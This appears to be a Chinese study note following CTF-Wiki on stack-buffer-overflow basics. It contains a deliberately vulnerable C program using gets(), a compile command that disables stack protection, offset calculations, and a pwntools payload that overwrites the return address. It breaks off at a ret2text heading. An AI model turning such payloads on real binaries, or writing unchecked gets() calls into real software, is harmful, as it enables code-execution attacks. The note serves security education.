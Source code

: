 # 栈溢出

## [栈溢出原理](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/stackoverflow_basic/)

样例

```c
// stack_example.c
#include <stdio.h>
#include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

编译指令：

```bash
stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example
```

断点下在 `vulnerable()` 上，查看栈帧。

此时 `$esp` 的地址为 `0xffffce20` ，`$ebp` 的地址为 `0xffffce38` 。由于 `s` 的地址相对 `$esp` 的偏移为 `+4h` ，因此 `s` 的地址为 ` 0xffffce24` ，相对 `$ebp` 的偏移就是 `0x14` ，相对于返回地址的偏移为 `0x14+0x4=0x18` 。又知 `success()` 函数地址为`0x804843B` ，可以构造payload：

```python
from pwn import *
success_addr = 0x804843B
p = process('./stack_example')
payload = 'a'*(0x14+0x4)+p32(success_addr)
p.sendline(payload)
p.interactive()
```

就能成功执行了。

## [基本ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic_rop/)

ROP概念

### ret2text
